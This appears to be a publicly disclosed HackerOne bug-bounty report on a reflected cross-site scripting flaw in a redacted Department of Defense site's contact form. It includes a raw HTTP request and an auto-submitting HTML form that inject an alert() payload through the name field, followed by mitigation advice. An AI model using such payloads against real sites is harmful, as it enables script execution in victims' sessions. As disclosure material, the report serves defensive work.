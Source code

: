 # RXSS on ███████

## Report Details
- **Report ID**: 1626962
- **URL**: https://hackerone.com/reports/1626962
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-07-05T18:30:08.470Z
- **Disclosed**: 2022-09-06T19:01:47.552Z

## Reporter
- **Username**: tmz900
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
I found Reflected XSS on https://███/contact-us/#.YsSAGCNBzaQ.
The parameters in the contact form are not properly filtered, leading to possible insertion of `"` characters and javascript execution

## Impact

Perform any action within the application that the user can perform.
View any information that the user is able to view.
Modify any information that the user is able to modify.
Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user.

## System Host(s)
███████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
1. Use this code in your BurpSuite Repeater.
```
POST /contact-us/ HTTP/1.1
Host: ███████
Cookie: wire=kh92hb67grih1376an7igoeo39; _ga_877MBKEB9K=GS1.1.1657044258.1.1.1657044351.0; _ga=GA1.2.58467857.1657044259; __atuvc=2%7C27; __atuvs=62c47d237cd3f8d9001; __atrfs=ab/|pos/|tot/|rsi/62c47d0400000000|cfc/|hash/0|rsiq/|fuid/d2cfdda4|rxi/|rsc/addressbar|gen/1|csi/|dr/; _gid=GA1.2.2089900381.1657044260; wires=cqr7lhfhfudpdntime6mevkslt; _gat_gtag_UA_377760_26=1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 142
Origin: https://██████
Referer: https://████████/contact-us/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

name="%20onfocus=alert('tmz900')%20autofocus//"&email=test%40gmail.com&phone=1234567895&message=test&submitted=submitted&g-recaptcha-response=
```
2. You will see an alert box pop up:

█████████

3. Or you can use this code test on html file:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://████/contact-us/" method="POST">
      <input type="hidden" name="name" value="&quot;&#32;onfocus&#61;alert&#40;&apos;tmz900&apos;&#41;&#32;autofocus&#47;&#47;&quot;" />
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="hidden" name="phone" value="1234567895" />
      <input type="hidden" name="message" value="test" />
      <input type="hidden" name="submitted" value="submitted" />
      <input type="hidden" name="g&#45;recaptcha&#45;response" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```

## Suggested Mitigation/Remediation Actions
Filter input on arrival
Encode data on output
Use appropriate response headers
Content Security Policy.



## Attachments
No attachments
